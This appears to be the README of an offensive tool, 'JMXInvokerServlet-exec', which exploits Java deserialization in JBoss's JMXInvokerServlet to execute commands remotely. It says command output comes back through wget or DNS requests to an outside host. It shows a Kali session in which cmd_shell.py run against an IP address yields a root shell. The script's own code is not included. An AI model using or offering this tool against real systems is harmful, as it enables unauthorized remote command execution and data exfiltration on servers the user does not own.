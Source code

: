 # JMXInvokerServlet-exec
JMXInvokerServlet serialized objects command execution

full credit and details at the following link:

https://github.com/frohoff/ysoserial

http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/

this script lets you execute and retrieve commands output (through wget or dns requests) from a vulnerable target like in a shell.

## Example
```shell
root@kali:~/script/JMXInvokerServlet-exec/wget# python cmd_shell.py 192.168.1.20 
$> id
uid=0(root) gid=0(root) groups=0(root)

$> exit
Bye!
```
